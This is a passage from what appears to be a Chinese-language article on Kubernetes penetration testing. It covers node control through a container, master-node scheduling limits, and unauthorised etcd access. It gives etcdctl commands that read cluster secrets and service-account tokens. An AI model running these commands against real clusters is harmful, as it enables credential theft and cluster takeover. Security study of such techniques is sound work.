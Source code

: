 之后我们便可以通过该容器的tmp目录管理node节点的文件。

![](assets/1700701621-6311747ccbc4e721a6b9f833e033e83e.png)

![](assets/1700701621-3e1aef1acb868d2502f7828b3a62a34b.png)

值得注意的是，为了集群的稳定性和安全性要求，在Kubernetes默认设计的情况下Pod是不能调度到master节点的，但如果用户自行设置关闭了Master Only状态，那么我们可以直接在master节点新建Pod更直接的控制master node；不过目前各大主流云产商上的Kubernetes集群服务，都会默认推荐让Master节点由云厂商托管，更加加剧了Master节点渗透和控制的难度 。

## 7.5、etcd

etcd被广泛用于存储分布式系统或机器集群数据，其默认监听了2379等端口，如果2379端口暴露到公网，可能造成敏感信息泄露，本文我们主要讨论Kubernetes由于配置错误导致etcd未授权访问的情况。Kubernetes默认使用了etcd v3来存储数据，如果我们能够控制Kubernetes etcd服务，也就拥有了整个集群的控制权。

在Kubernetes中用户可以通过配置/etc/Kubernetes/manifests/etcd.yaml更改etcd pod相关的配置，倘若管理员通过修改配置将etcd监听的host修改为0.0.0.0，则通过ectd获取Kubernetes的认证鉴权token用于控制集群就是自然而然的思路了，方式如下：

首先读取用于访问apiserver的token

export ETCDCTL\_API=3  
export ETCDCTL\_CERT=/etc/kubernetes/pki/etcd/peer.crt  
export ETCDCTL\_CACERT=/etc/kubernetes/pki/etcd/ca.crt  
export ETCDCTL\_KEY=/etc/kubernetes/pki/etcd/peer.key  
etcdctl get / —prefix —keys-only | grep /secrets/kube-system/clusterrole  
etcdctl get /registry/secrets/kube-system/clusterrole-aggregation-controller-token-jmrzx

![](assets/1700701621-b35e6b04ded26d458da208c281ac0f18.png)
